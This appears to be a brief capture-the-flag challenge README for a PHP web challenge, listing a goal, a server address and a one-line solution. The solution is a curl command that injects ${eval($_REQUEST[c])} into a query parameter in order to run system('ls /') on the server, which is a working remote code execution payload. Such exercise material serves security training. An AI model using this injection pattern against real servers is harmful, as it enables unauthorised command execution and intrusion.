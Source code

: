 #### Goals
 * Try to find the flag

#### Server Address
 * http://web.sniperoj.com:10001/

#### Solution
```
curl "http://localhost/?str=${eval($_REQUEST[c])}&c=system('ls /');"
```

#### Writeups
 * TODO

